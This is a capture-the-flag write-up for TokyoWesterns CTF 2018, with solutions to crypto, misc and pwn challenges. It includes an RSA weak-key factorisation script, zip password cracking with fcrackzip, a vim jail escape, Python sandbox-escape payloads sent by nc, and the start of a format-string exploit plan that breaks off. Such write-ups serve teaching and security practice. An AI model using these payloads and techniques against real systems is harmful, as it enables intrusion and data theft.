


# 2018-09-01-TokyoWesterners-CTF #

[CTFTime link](https://ctftime.org/event/651) | [Website](https://tokyowesterns.github.io/ctf2018/)

---

## Challenges ##

### Crypto ###

 - [x] [112 scs7](#112-crypto--scs7)
 - [x] [154 Revolutional Secure Angou](#154-crypto--revolutional-secure-angou)
 - [ ] 233 mixed cipher

### Misc ###

 - [x] [95 mondai.zip](#95-misc--mondaizip)
 - [x] [126 vimshell](#126-misc--vimshell)
 - [x] [121 + 126 pysandbox](#121--126-misc--pysandbox)

### Pwnable ###

 - [ ] 208 load
 - [ ] 447 BBQ
 - [ ] 240 + 300 + 300 EscapeMe
 - [x] [239 Neighbor C](#239-pwnable--neighbor-c)
 - [x] [233 swap Returns](#233-pwnable--swap-returns)
 - [ ] 421 twgc
 - [ ] 410 ReadableKernelModule
 - [ ] 90 BBQ-old

### Reversing ###

 - [x] [99 dec dec dec](#99-reversing--dec-dec-dec)
 - [ ] 315 tw playing card
 - [ ] 462 Matrix LED
 - [ ] 462 DartS
 - [ ] 447 REVersiNG

### Warmup ##

- [x] [28 Welcome!!](#28-warmup--welcome)

### Web ###

 - [x] [55 SimpleAuth](#55-web--simpleauth)
 - [x] [190 shrine](#190-web--shrine)
 - [ ] 267 Slack emoji converter

---

## 112 Crypto / scs7 ##

**Description**

> `nc crypto.chal.ctf.westerns.tokyo 14791`
> 
> Note: You can encrypt up to 100 messages "per once connection".

**No files provided**

**Solution**

Upon connecting, we get the encrypted flag with some random "key" and we can encrypt 100 messages with the same "key". On each connection, the encrypted flag is different, but of course the decrypted plain text is always the same.

    $ nc crypto.chal.ctf.westerns.tokyo 14791
    encrypted flag: XRSAVJb0UiLYkm44anypH4JkKZgNGTabbj7mABkztEDvDrKT1fRpfS6vtwzaDf24
    You can encrypt up to 100 messages.
    message: 

The characters look very much like the Base-64 alphabet, and the number of characters in the output grows slightly faster than the length of the input. The padding characters are removed.

We can find the correct flag length by matching the Base-64 character amount:

    . nc crypto.chal.ctf.westerns.tokyo 14791
    encrypted flag: 03swHpYeLkJnm8aaE1rfMapmU6ZBAtEYYzC8w5mjWKoioRUtPx3fxsciWqjEoxba
    You can encrypt up to 100 messages.
    message: TWCTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
    ciphertext: 03swHpYeFR6FMLnQn6jwPa86kus9TbcBHsaGy99oySVvH9Zg1KkcKBrUTsENJ8mG
    message: TWCTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxy}
    ciphertext: LLVePvv77RHm0UBQ7FzwCv8SSR391yaCnttssP1XdJGk9NDgPZeKWpBrAnUaaEirZs

Here we can make an important observation – the Base-64 characters are jumbled using some cipher that doesn't always produce the same output for the same input, i.e. it is position-dependent. Additionally, the `TWCTF{` prefix matched only when the length of the entire plain text matched, so it seems the message length is a parameter of the cipher.

This *could* be something like a simple affine cipher. Nonetheless, during the CTF I wrote a simple brute-force script matching one prefix at a time.

([Full script](scripts/SCS7.hx))

`TWCTF{67ced5346146c105075443add26fd7efd72763dd}`

## 154 Crypto / Revolutional Secure Angou ##

**No description**

**Files provided**

 - [`revolutional-secure-angou.7z`](files/revolutional-secure-angou.7z) containing:
   - `flag.encrypted`
   - `generator.rb`
   - `publickey.pem`

**Solution**

First a look at all the files provided:

    $ xxd flag.encrypted
    0000000: 4fed 3772 79db 2e48 b1e8 5fa3 572d bf5d  O.7ry..H.._.W-.]
    0000010: 2fa2 6a7c d109 37a2 86b3 a34f c66c 13e3  /.j|..7....O.l..
    0000020: d0bc af0a 9d33 ce30 4202 e9a4 e986 fb12  .....3.0B.......
    0000030: bf86 d761 0506 649a 536d 7113 1563 87fa  ...a..d.Smq..c..
    0000040: aca5 ce56 0c3c d213 7de8 07d7 7ca5 dc30  ...V.<..}...|..0
    0000050: fd6f a3dd c794 908b e230 1ba9 bb86 04f6  .o.......0......
    0000060: c03e b484 7ff5 e723 d81e 4273 1bb7 2d8c  .>.....#..Bs..-.
    0000070: 2646 d2a9 e203 2642 aa51 28a9 cd5c 6a4b  &F....&B.Q(..\jK
    0000080: d75b 0e3e 2322 fb7a c63d dc09 c9ca d257  .[.>#".z.=.....W
    0000090: 3cf2 b1e1 af79 74ea d8d7 00b8 26bb c7b3  <....yt.....&...
    00000a0: 16e8 ba24 0ebb d2a6 5e13 faa6 8f18 cec0  ...$....^.......
    00000b0: 5d35 463d a9b5 09c3 9b8e 5090 d91b 1316  ]5F=......P.....
    00000c0: 3fc3 d99e c33d f350 1e81 89fc d3b7 1fc1  ?....=.P........
    00000d0: fa1a b075 cb29 f66a 64da cab5 19b7 a29c  ...u.).jd.......
    00000e0: 0171 306b edbe 5841 7613 6b57 6e47 27a9  .q0k..XAv.kWnG'.
    00000f0: 8054 c68e 4285 fa1f 0e98 0b99 57ed b9a4  .T..B.......W...

    $ cat generator.rb

```ruby
require 'openssl'

e = 65537
while true
  p = OpenSSL::BN.generate_prime(1024, false)
  q = OpenSSL::BN.new(e).mod_inverse(p)
  next unless q.prime?
  key = OpenSSL::PKey::RSA.new
  key.set_key(p.to_i * q.to_i, e, nil)
  File.write('publickey.pem', key.to_pem)
  File.binwrite('flag.encrypted', key.public_encrypt(File.binread('flag')))
  break
end
```

    $ openssl rsa -in publickey.pem -pubin -text -noout
    Public-Key: (2048 bit)
    Modulus:
        00:85:29:06:3e:a0:ad:3b:46:29:6f:92:f7:23:56:
        77:2e:a4:e7:03:f7:b7:92:20:c1:8d:e1:b7:e3:ca:
        0a:77:28:d1:9e:69:dc:48:b8:68:5c:d6:04:f5:88:
        7a:4f:8f:3a:94:5a:1c:a1:59:3c:f0:86:d3:48:ec:
        4d:c9:21:42:08:3f:c9:e2:20:3c:65:30:31:1e:e5:
        10:be:50:a4:2a:ee:4a:63:e7:fa:66:bf:ce:35:12:
        fc:2f:b1:17:40:2a:55:cd:f0:89:77:70:c1:bb:86:
        f2:d9:30:6d:a5:b8:99:d2:94:ed:bc:b1:7a:d8:7e:
        17:59:2c:cc:3f:62:b1:30:57:24:18:17:32:ac:74:
        74:cf:23:be:b7:22:83:33:73:ef:07:b6:a9:21:88:
        cf:28:bc:fe:f2:6b:23:68:ad:a3:8f:7f:4f:d8:92:
        1d:be:3b:64:88:e4:b9:20:28:ff:bd:46:ae:26:d8:
        b4:3c:9a:86:db:bc:63:f0:b5:13:98:bb:54:09:8f:
        f7:00:4b:64:6a:fb:42:f2:43:54:ab:6a:2d:30:ef:
        ee:e8:b3:33:47:3a:be:1c:c9:2e:b6:8a:46:58:19:
        d9:e9:a0:ff:58:fe:af:2c:72:2a:e6:5b:7c:ed:c9:
        e3:0b:e9:15:02:9d:69:34:25:23:b9:81:ad:83:95:
        cd:f7
    Exponent: 65537 (0x10001)

So the Ruby script was used to encrypt the flag using RSA. We are given the encrypted cipher text and the 2048-bit public key. 2048-bit RSA key sounds serious and such keys are still used for secure applications nowadays. So the only conclusion we can come to is that the key is not generated properly.

Factorisation with yafu was attempted but yielded no results, so it seems that the factors are still quite large.

Instead, let's have a closer look at how the primes are actually generated:

```ruby
while true
  p = OpenSSL::BN.generate_prime(1024, false)
  # q is modular inverse of e mod p
  q = OpenSSL::BN.new(e).mod_inverse(p)
  next unless q.prime?
```

The [library](https://ruby-doc.org/stdlib-2.5.1/libdoc/openssl/rdoc/OpenSSL/BN.html) used to generate `p` seems a completely valid choice. The second argument of `generate_prime` specifies whether the generated prime should be a ["safe prime"](https://en.wikipedia.org/wiki/Safe_prime), but even though the prime generated is "unsafe" it is still a 1024-bit prime.

But the unusual bit here is how `q` is obtained. It is the [modular multiplicative inverse](https://en.wikipedia.org/wiki/Modular_multiplicative_inverse) of `e` (the public modulus) `mod p`? Key generation in RSA usually consists of generating two discting primes indepently of one another, and repeating the process until there are only very small common factors between `(p - 1)` and `(q - 1)`. Here `q` clearly depends on `p`!

But how can we exploit this? Let's write down what we know and do some algebraic manipulation:

    e = 65537
    p ... 1024-bit prime, "unsafe"
    q = e^-1 mod p
     => e * q = 1 mod p
     => e * q = 1 + x * p, for some integer x ≥ 0
     => x * p = e * q - 1
     => p = (e * q - 1) / x
    n ... 2048-bit public key
    q ... ~1024-bit prime (since n = p * q is 2048-bit)
    n = p * q
     => n = ((e * q - 1) / x) * q
     => n = (e * q^2 - q) / x

We can actually rewrite that last line as a quadtratic polynomial:

        n = (e * q^2 - q) / x
    x * n = e * q^2 - q
        0 = e * q^2 - q - x * n

Where `a = e`, `b = -1`, and `c = x * n`. Now we can simply use the quadratic formula to find the roots, i.e. the solutions for `q`. Of course, we only need to consider the positive root:

    q = (-b + sqrt(b^2 - 4ac)) / 2a
    substituting:
    q = (1 + sqrt(1 - 4 * e * x * n)) / 2e

We know that `q` is a 1024-bit prime number, so clearly it has to be an integer. For the fraction to be an integer, we need the denominator (`1 + sqrt(...)`) to be divisible by `2e`. More importantly, since `2e` is an integer, we need the denominator to be an integer, and hence we need the discriminant (`b^2 - 4ac = 1 - 4 * e * x * n`) to be a perfect square. We know `n` and `e`, since these form the public key. The only unknown here is `x`.

We expect `x` to be somewhat close in value to `e`, in order for the square root of the discriminant `+ 1` to be divisible by `2e`. However, since `e = 65537`, we can simply do an exhaustive search from `x = 1` until we find a solution. Here is a simple Python script to do this using gmpy2 (native Python integers are too slow here):

```python3
n = gmpy2.mpz(0x008529063ea0ad3b46296f92f72356772ea4e703f7b79220c18de1b7e3ca0a7728d19e69dc48b8685cd604f5887a4f8f3a945a1ca1593cf086d348ec4dc92142083fc9e2203c6530311ee510be50a42aee4a63e7fa66bfce3512fc2fb117402a55cdf0897770c1bb86f2d9306da5b899d294edbcb17ad87e17592ccc3f62b1305724181732ac7474cf23beb722833373ef07b6a92188cf28bcfef26b2368ada38f7f4fd8921dbe3b6488e4b92028ffbd46ae26d8b43c9a86dbbc63f0b51398bb54098ff7004b646afb42f24354ab6a2d30efeee8b333473abe1cc92eb68a465819d9e9a0ff58feaf2c722ae65b7cedc9e30be915029d69342523b981ad8395cdf7)
e = gmpy2.mpz(0x10001)

for x in range(1, 0x100000):
  discriminant = gmpy2.mpz(1 + 4 * n * e * x)
  root = gmpy2.iroot(discriminant, 2)[0]
  if root * root == discriminant:
    print(x)
    break
```

And with that we quickly find `x = 54080`. We can confirm that it is now possible to find an exact integer solution to the quadratic formula:

```python3
numerator = 1 + gmpy2.iroot(gmpy2.mpz(1 + 4 * n * e * x), 2)[0]
denominator = 2 * e
print(numerator % denominator == 0)
q = numerator // denominator
```

And finally to verify that `q` divides `n` eactly:

```python3
print(n % q == 0)
p = n // q
```

So with the knowledge of the primes, we can proceed with the RSA auto-pilot of calculating the totient, the private key `d`, and decrypting the message. (Full script here)[scripts/rsa.py].

    $ python3 rsa.py
    x = 54080
    integer fraction found: True
    prime of n found: True
    p = 142727552290123521017279182847387099553980176436653156686571005621360593567236973858972940588412513104338972342496604878974964273707518226570604980944855067127507753049804700855693115963197456876865788199179854448882972688495369967044453040443306336140280352904742571391288666823388345281672776486027914172087
    q = 117776309990537864360810812340917258096636219871129327152749744175094693075913995854147376703562090249517854407162616412941789644355136574651545193852293544566513866746012759544621873312628262933928953504305148673201262843795559879423287920215664535429854303448257904097546288383796049755601625835244054479553
    phi = 16809924442712290290403972268146404729136337398387543585587922385691232205208904952456166894756423463681417301476531768597525526095592145907599331332888256802856883222089636138597763209373618772218321592840374842334044137335907260797472710869521753591357268215122104298868917562185292900513866206744431640041825979867105249932890940911381335041712272797899543995788514582462240518842563155246865613570402920157419687697111930148710870730629815957216849373343577492188501906664815472358533861143958926638396113416061578785068164481601201983962622457263781854341614203973944361678592735864122145283939434822573696185472
    d = 12685738484942314313789152088713015321019042297472437411782771035468772791022201521866687554829534334295978407562541895590222583725770119967316900820330308145867154895678917621233321220214541972265647639328917389446528753900228898248644358670442755834434712778789218829263758255497813697203332390148558830175147310866644665626759237615318035132719007400987467338201448864296771161037512985522673902009017617912715914889661745903763404559187778470360726556095437014337838584308534776262391743663242452258751468290150198568013508078353178322517408204393733661168920690604442379722902170230064742991792065054165583806721
    cipher = 10089801952851677233375343748334663831040141607106889530909669540017317755681188698980263004402133660979407119311320372745257158691631249131566106670161865093087801278950198225102042583803531958252306524156922426585194114960337939249290950354517240715367558712098747715093640298873767081261430898770019892466124065148096497855157363209509475161543099156564224121940010336176009687669790607339053418086863051500818439084834826453968837826083502290458386468079753695372281967619869947082478955556210036493908924005620167220729452963493214730708944132474924039805244831072055444725447859972247018254615246641130491460004
    plain = 1420601612258441926906969731437774688566600890964306449231629993551702380099505967631945399642414315403811583561535034439099347713042568688699687261390828335560089515851235597692036443716875019777612882313897487635097134956465952548138454303501409485681689290099638892995732756381973242435538753053322905709330700680463397820462905451695207786668795318920215889953844197054766418474627615281614803885642272992371082587560442350258729933763385621651053463385604854287725833254781960311919433904258481720918081195804122887612881112805428762497246317821976323018012958859174791513792343656717981507896162640601644298
    b'\x02\xe1\x7f\x96\xcba\xf0\xe17\xa2(t{E\xea\x96U\xb9\xf5\xd2D5\x0bL\xee\xdeq{\xdd\x9d\x82o\xd1\xd6\xfe`\xa2\xc62B\x8c\x9a\xd6}\xa6\xc8X\xa3>4\x98oN\xc0\xd6I\xf4zn_\xe3\x90\x18B\xff"\xf6\xcf\x94\xdb\x13;\x83s\xff\xde\xf0\x13\xb1<-\xd9(p\xce\x86\x88f6\x12\x03\xa00n\x06;YbRH\xda\xbe\x0bo!\x0e-\xa1\x13\x07\x89\x18\xb53}T\x92\xe6H\xf7\x19\xd3E#R5HTe#9\'@\xeb\xff\x91#`\x8cv\x19\xaa \x04Z\xcc\x95,\x0e\xfb\xdf\xb8$\x96>(%\'\xba\xef\xeb\x15\x8d\x860wt|\xfbr\xf5eA\x9b\xaf\x1aa\xf0q\x9d\xa8\x82\xe9r\xd9\xe0\xab\xe2\x93\xd1\x97\x80\x9c\xca\xcd\x8dx\x16\xdb\xee\xcb\x05\xc3\x12\x15@\x00TWCTF{9c10a83c122a9adfe6586f498655016d3267f195}\n'

(The message is padded and the actual flag is at the very end.)

`TWCTF{9c10a83c122a9adfe6586f498655016d3267f195}`

## 95 Misc / mondai.zip ##

**No description**

**Files provided**

 - [`mondai.zip`](files/mondai.zip) containing:
   - `y0k0s0.zip`

**Solution**

Classic Matryoshka-doll-type problem.

    $ unzip mondai.zip
    Archive:  mondai.zip
     extracting: y0k0s0.zip
    $ zipinfo y0k0s0.zip
    Archive:  y0k0s0.zip   9923 bytes   2 files
    -rw-a--     6.3 fat     3948 Bx defN 31-Aug-18 22:26 capture.pcapng
    -rw-a--     6.3 fat     8677 Bx defN  1-Sep-18 03:29 mondai.zip
    2 files, 12625 bytes uncompressed, 9605 bytes compressed:  23.9%

`y0k0s0.zip` contains another `mondai.zip`, so we specify an output directory in order not to override the file. The file is password protected - since it is called `y0k0s0`, which is a weird word / name, let's try that:

    $ unzip y0k0s0.zip -d level1
    Archive:  y0k0s0.zip
    [y0k0s0.zip] capture.pcapng password: (y0k0s0)
      inflating: level1/capture.pcapng
      inflating: level1/mondai.zip

And it worked, great. The next level is password-protected again, as are all the following ones. Let's have a look at the `capture.pcapng` file in Wireshark:



There are a bunch of ICMP ping packets, some of them getting a reply, some of them not. The `data` field of the requests seems to contain `abc...uvw` repeating, but the length of each packet is different. We can filter the packets to only show the requests (since the responses, if present, always contain the same `data`) that have the `data` field with:

    data && icmp.type == 8



Let's note the lengths of the packets:

    129, 143, 91, 141, 153, 151, 106, 106, 106, 143, 106, 106, 106

If we decode these numbers as ASCII, they look like garbage, but these lengths are the lengths of the full packets. Each packet includes some header data before the actual ping payload. Looking at the first packet, the packet size is `129`, while the length of the `data` field is `87`, a difference of `42`. In fact, the header is the same size for all of the packets. Let's decode that as ASCII:

    $ python3
    >>> bytes(map(lambda n: n - 42, [129, 143, 91, 141, 153, 151, 106, 106, 106, 143, 106, 106, 106]))
    b'We1com@@@e@@@'

Ignoring the `@` signs (coming from packets with no response in the packet dump), we get `We1come`. And this is the password!

    $ unzip level1/mondai.zip -d level2
    Archive:  level1/mondai.zip
    [level1/mondai.zip] list.txt password: (We1come)
      inflating: level2/list.txt
      inflating: level2/mondai.zip

For this level we are given a `list.txt` with a thousand 10-character lines of random-looking ASCII strings. These seem like possible passwords but checking them one-by-one would be a pain, so let's use `fcrackzip`:

    $ fcrackzip -D -p level2/list.txt level2/mondai.zip

With this we can find the password `eVjbtTpvkU`.

    $ unzip level2/mondai.zip -d level3
    Archive:  level2/mondai.zip
    [level2/mondai.zip] 1c9ed78bab3f2d33140cbce7ea223894 password: (eVjbtTpvkU)
      inflating: level3/1c9ed78bab3f2d33140cbce7ea223894
    $ xxd level3/1c9ed78bab3f2d33140cbce7ea223894
    0000000: 504b 0304 1400 0100 0800 4d19 214d acc3  PK........M.!M..
    0000010: 5247 2b01 0000 2a01 0000 0a00 0000 6d6f  RG+...*.......mo
    0000020: 6e64 6169 2e7a 6970 30fc c34b ee61 96e5  ndai.zip0..K.a..
    ...
    0000240: 3b41 d401 085c c9f9 5541 d401 085c c9f9  ;A...\..UA...\..
    0000250: 5541 d401 504b 0506 0000 0000 0200 0200  UA..PK..........
    0000260: b800 0000 9c01 0000 0000                 ..........
    $ file level3/1c9ed78bab3f2d33140cbce7ea223894
    level3/1c9ed78bab3f2d33140cbce7ea223894: Zip archive data, at least v2.0 to extract

No hint this time except the filename itself. It is 32 characters and hexadecimal, so we can try to check if it is a known hash. And indeed, crackstation reports this as a known MD-5 hash of `happyhappyhappy`.

    $ unzip level3/1c9ed78bab3f2d33140cbce7ea223894 -d level4
    Archive:  level3/1c9ed78bab3f2d33140cbce7ea223894
    [level3/1c9ed78bab3f2d33140cbce7ea223894] mondai.zip password: (happyhappyhappy)
      inflating: level4/mondai.zip
     extracting: level4/README.txt

The `README.txt` says `password is too short`, so presumably we can crack this with `fcrackzip` bruteforce.

    $ fcrackzip -b -l 2 level4/mondai.zip

There are no 1-character password matches, but there are several 2-character matches – perhaps the `too short` in the hint was a play on `two short`? `fcrackzip` for some reason cannot verify these matches very well (which is what the `-u` option should do), but there are not too many, so we can test them one-by-one. The correct password is `to`.

    $ unzip level4/mondai.zip -d level5
    Archive:  level4/mondai.zip
    [level4/mondai.zip] secret.txt password: (to)
      inflating: level5/secret.txt
    $ cat level5/secret.txt
    Congratulation!
    You got my secret!
    
    Please replace as follows:
    (1) = first password
    (2) = second password
    (3) = third password
    ...
    
    TWCTF{(2)_(5)_(1)_(4)_(3)}

`TWCTF{We1come_to_y0k0s0_happyhappyhappy_eVjbtTpvkU}`

## 126 Misc / vimshell ##

**Description**

> Can you escape from [jail](http://vimshell.chal.ctf.westerns.tokyo/)?

**No files given**

**Solution**

On the website, we get thrown into a vim session which shows:

    diff --git a/src/normal.c b/src/normal.c
    index 41c762332..0011afb77 100644
    --- a/src/normal.c
    +++ b/src/normal.c
    @@ -274,7 +274,7 @@ static const struct nv_cmd
         {'7',      nv_ignore,      0,                      0},
         {'8',      nv_ignore,      0,                      0},
         {'9',      nv_ignore,      0,                      0},
    -    {':',      nv_colon,       0,                      0},
    +    // {':',   nv_colon,       0,                      0},
         {';',      nv_csearch,     0,                      FALSE},
         {'<',      nv_operator,    NV_RL,                  0},
         {'=',      nv_operator,    0,                      0},
    @@ -297,7 +297,7 @@ static const struct nv_cmd
         {'N',      nv_next,        0,                      SEARCH_REV},
         {'O',      nv_open,        0,                      0},
         {'P',      nv_put,         0,                      0},
    -    {'Q',      nv_exmode,      NV_NCW,                 0},
    +    // {'Q',   nv_exmode,      NV_NCW,                 0},
         {'R',      nv_Replace,     0,                      FALSE},
         {'S',      nv_subst,       NV_KEEPREG,             0},
         {'T',      nv_csearch,     NV_NCH_ALW|NV_LANG,     BACKWARD},
    @@ -318,7 +318,7 @@ static const struct nv_cmd
         {'d',      nv_operator,    0,                      0},
         {'e',      nv_wordcmd,     0,                      FALSE},
         {'f',      nv_csearch,     NV_NCH_ALW|NV_LANG,     FORWARD},
    -    {'g',      nv_g_cmd,       NV_NCH_ALW,             FALSE},
    +    // {'g',   nv_g_cmd,       NV_NCH_ALW,             FALSE},
         {'h',      nv_left,        NV_RL,                  0},
         {'i',      nv_edit,        NV_NCH,                 0},
         {'j',      nv_down,        0,                      FALSE},
    ~
    ~
    "/vimshell.patch" [readonly] 31 lines, 1124 characters

The patch file seems to show a modification of `vim` source code. The `:`, `Q` and `g` keys are not bound properly, so we cannot simply do `<esc>:q!` to quit. Apart from that, we can try `<esc>ZZ` but this actually closes our connection, instead of exiting `vim`. So in effect this challenge is like an SSH jail with the remote shell set to modified `vim`. Our goal is to get the flag somehow, not to quit `vim`.

After playing around a bit, we can see that writing into the file is possible, although it warns us that it is open in read-only mode. So we cannot save, but we can write anything and keep it in our session. The fact that `g` is disabled gives us another hint: we can "go to file" with the keystroke `gf`. This opens the filename that is currently under the cursor.

Looking around a bit more, I found [this page](http://vim.wikia.com/wiki/Open_file_under_cursor), which shows the `gf` keystroke, but additionally `<c-w>f` and `<c-w>gf`. So we write `flag` into the file using insert mode (`<esc>i`), then `<esc>` to switch to normal mode and finally `<c-w>f` to open the `flag` file in another window.

`TWCTF{the_man_with_the_vim}`

## 121 + 126 Misc / pysandbox ##

**Description**

> let's break [sandbox](files/sandbox.py).
> 
> start from nc pwn1.chal.ctf.westerns.tokyo 30001
> 
> Update(2018-09-01 10:22 UTC):
> 
> slightly patched sandbox.py to avoid netcat issues.
> 
>     81c81
>     <     expr = sys.stdin.read()
>     ---
>     >     expr = sys.stdin.readline()

**Files provided**

 - [`sandbox.py`](files/sandbox.py)
 - (after solving the first part) [`sandbox2.py`](files/sandbox2.py)

**Solution**

The script given to us is a simple sandbox which accepts input, lets the Python parser parse it into its AST, does some checking, and executes the input if it is valid. Apparently function calls are not allowed.

Since our goal is to read the `flag` file, it is hard to imagine a script that reads a file without calling any functions. So either we can come up with a way to call functions without using a `Call` in the AST, or we can find some place to hide a `Call` where the checker doesn't look.

Knowing some Python weirdness ahead of time, seeing that lambda expressions are allowed immediately attracted my attention. Why have lambdas when calls are disallowed? The body of the lambda is checked with the checker, so we cannot have a `Call` inside the actual lambda expression.

    $ nc pwn1.chal.ctf.westerns.tokyo 30001
    lambda x: x
    <function <lambda> at 0x7ff90e25ec80>

But even though the syntax is a bit different, lambdas are still functions, and functions take arguments. And, more importantly, arguments can have default values.

    $ nc pwn1.chal.ctf.westerns.tokyo 30001
    lambda x = 1: x
    <function <lambda> at 0x7f8159a2bc80>

And the default value can actually be any expression.

    $ nc pwn1.chal.ctf.westerns.tokyo 30001
    lambda x = 1 + 1: x
    <function <lambda> at 0x7fa981e0bc80>

This is interesting since the checker only looks into the `body` of the lambda, not the `args` list. Even if the lambda is never called, its argument default values must be evaluated. Now we can use the magic `__import__` function to get the reference to any module we need. `sys` in particular allows us output:

    $ nc pwn1.chal.ctf.westerns.tokyo 30001
    lambda x = __import__("sys").stdout.write("pwned"): x
    pwned<function <lambda> at 0x7fde7f032c80>

And `os` to get the flag:

    lambda x = __import__('sys').stdout.write(open('flag').read()): x
    TWCTF{go_to_next_challenge_running_on_port_30002}
    <function <lambda> at 0x7f6a2e96bc80>

On to the second part, which first asks us for a hash of the first flag, then delivers the [source code of the second part](files/sandbox2.py):

    $ nc pwn1.chal.ctf.westerns.tokyo 30002
    input sha512(flag1) >> 365d5a383aee6a82ad226043bf7feae5eeed6fbe34a9ef9582527b0b4b4c726637449896bd269bb5f3680971036b023a54cab866137da3bfe5a25fd94059b176
    (...)

What is changed?

    $ diff sandbox.py sandbox2.py
    2a3
    > import hashlib
    5c6,14
    < blacklist = [ast.Call, ast.Attribute]
    ---
    > def check_flag1():
    >     sys.stdout.write('input sha512(flag1) >> ')
    >     sys.stdout.flush()
    >     s = sys.stdin.readline().strip()
    >     flag = open('./flag', 'rb').read().strip()
    >     if hashlib.sha512(flag).hexdigest() != s:
    >         exit()
    >     sys.stdout.write(open(__file__, 'rb').read().decode())
    >     sys.stdout.flush()
    55,58c64,67
    <             'ListComp': ['elt'],
    <             'SetComp': ['elt'],
    <             'DictComp': ['key', 'value'],
    <             'GeneratorExp': ['elt'],
    ---
    >             'ListComp': ['elt', 'generators'],
    >             'SetComp': ['elt', 'generators'],
    >             'DictComp': ['key', 'value', 'generators'],
    >             'GeneratorExp': ['elt', 'generators'],
    70a80
    >             'comprehension': ['target', 'iter', 'ifs'],
    80a91
    >     check_flag1()
    87c98
    <     sys.stdout.flush()
    \ No newline at end of file
    ---
    >     sys.stdout.flush()

It seem that the `generators` part in various list comprehensions was never checked. So this also works for part 1:

    $ nc pwn1.chal.ctf.westerns.tokyo 30001
    [ flag for flag in [open("flag").read()] ]
    ['TWCTF{go_to_next_challenge_running_on_port_30002}\n']

But lambdas are still checked the same way, so:

    $ printf "365d5a383aee6a82ad226043bf7feae5eeed6fbe34a9ef9582527b0b4b4c726637449896bd269bb5f3680971036b023a54cab866137da3bfe5a25fd94059b176\nlambda x = __import__('sys').stdout.write(open('flag2').read()): x" | nc pwn1.chal.ctf.westerns.tokyo 30002
    (...)
    TWCTF{baby_sandb0x_escape_with_pythons}
    <function <lambda> at 0x7f47bb263158>

The correct filenames were found by listing the current directory using the `os` module. This challenge allows RCE of any sort but the user executing the Python script is very limited and the best we can do is list the `home` directories on the same machines, which happened to be the other pwn challenges.

`TWCTF{go_to_next_challenge_running_on_port_30002}`

`TWCTF{baby_sandb0x_escape_with_pythons}`

## 239 Pwnable / Neighbor C ##

**Description**

> Hello Neighbor!
> 
> nc neighbor.chal.ctf.westerns.tokyo 37565

**Files provided**

 - [`neighbor_c`](files/neighbor_c.bin)
 - [`libc.so.6`](files/libc.so.6)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The program is simple, a format string vuln

```c
void __fastcall __noreturn sub_8D0(FILE *stderr)
{
  while ( fgets(format, 256, stdin) )
  {
    fprintf(stderr, format);
    sleep(1u);
  }
  exit(1);
}
```

However, the stderr is not redirected to the socket, so the leak is currently not available

My approach is to rewrite the `fd` field of `stderr`, it is initially 2, and if we can rewrite it to 1, it will essentially becomes a stdout.

There are two value in the stack pointing to the `stderr`, `6$` and `8$`, in which `6$` can be editted since it is not used anymore. Firstly we need to rewrite a saved `rbp` value using `rbp` chain to let it point to the pointer to `stderr`, and edit the pointer to let it point to its fd field, then rewrite that to `1`. To be specific, write `%9$hhn` to change `11$` to pointer to pointer to `stderr`, then write `%11$hhn` to let it points to fd, then `%6$hhn` to change the `fd` to `stdout`

